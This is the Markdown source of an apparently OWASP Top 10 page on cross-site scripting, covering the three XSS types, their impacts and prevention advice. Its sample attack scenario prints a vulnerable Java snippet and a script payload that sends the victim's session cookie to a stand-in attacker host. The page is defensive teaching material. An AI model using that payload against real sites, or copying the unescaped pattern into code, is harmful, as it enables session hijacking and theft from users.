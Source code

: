 ```yaml
---

title: OwASP Top 10, A7 - Cross-Site Scripting (XSS)
layout: col-generic
top-ten: 7
exploitability: 3
prevalance: 3
detectability: 3
techincal: 2
og-summary: This is the summar that goes in og meta tags so when shared on social/slack it has a customized summary of the page as opposed to random front content

---
```

<p> <i class="fa fa-exclamation-circle"  style="color:orange; padding-right: 5px"></i>Exploitablity
  <i class="fa fa-exclamation-triangle"  style="color:red; padding-left: 20px; padding-right: 5px"></i>Prevalence
  <i class="fa fa-exclamation-triangle"  style="color:red; padding-left: 20px; padding-right: 5px"></i>Detectability
  <i class="fa fa-skull-crossbones" style="color:black; padding-left: 20px; padding-right: 5px"></i>Technnical
</p>

***
The most common Cross-Site Scripting vulnerability is where the application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.

- **Threat Agent / Attack Vectors**: Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks.
- **Security Weakness**: XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications.<br/>Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET.
- **Impacts**: The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim.
 
### Is the Applicaton Vulnerable
There are three forms of XSS, usually targeting users' browsers:
1. Reflected XSS: The application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.
2. Stored XSS: The application or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.
3. DOM XSS: JavaScript frameworks, single-page applications, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, the application would not send attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover, MFA bypass, DOM node replacement or defacement (such as trojan login panels), attacks against the user's browser such as malicious software downloads, key logging, and other client-side attacks.

### How to Prevent
Preventing XSS requires separation of untrusted data from active browser content. This can be achieved by:
- Using frameworks that automatically escape XSS by design, such as the latest Ruby on Rails, React JS. Learn the limitations of each framework's XSS protection and appropriately handle the use cases which are not covered.
- Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The <u>[[XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet|OWASP Cheat Sheet 'XSS Prevention']]</u> has details on the required data escaping techniques.
- Applying context-sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the <u>[[DOM_based_XSS_Prevention_Cheat_Sheet|OWASP Cheat Sheet 'DOM based XSS Prevention']].
- Enabling a <u>[https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP Content Security Policy (CSP)]</u> as a defense-in-depth mitigating control against XSS. It is effective if no other vulnerabilities exist that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks).

### Sample Attack Scenarios

Scenario #1: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```
(String) page += "<input name='creditcard' type='TEXT'<br>value='" + request.getParameter("CC") + "'>";
```

The attacker modifies the ‘CC’ parameter in the browser to:

```
'><script>document.location=<br/>'<nowiki>h</nowiki>ttp://www.attacker.com/cgi-bin/cookie.cgi?
```

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

Note: Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defense the application might employ.

### References

OWASP
- [[OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016|OWASP Proactive Controls: Encode Data]]
- [[OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016|OWASP Proactive Controls: Validate Data]]
- [[:Category:OWASP_Application_Security_Verification_Standard_Project|OWASP Application Security Verification Standard: V5]]
- [[Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)|OWASP Testing Guide: Testing for Reflected XSS]]
- [[Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)|OWASP Testing Guide: Testing for Stored XSS]]
- [[Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001)|OWASP Testing Guide: Testing for DOM XSS]]
- [[XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet|OWASP Cheat Sheet: XSS Prevention]]
- [[DOM_based_XSS_Prevention_Cheat_Sheet|OWASP Cheat Sheet: DOM based XSS Prevention]]
- [[XSS_Filter_Evasion_Cheat_Sheet|OWASP Cheat Sheet: XSS Filter Evasion]]
- [[OWASP_Java_Encoder_Project|OWASP Java Encoder Project]]

External
- [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
- [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
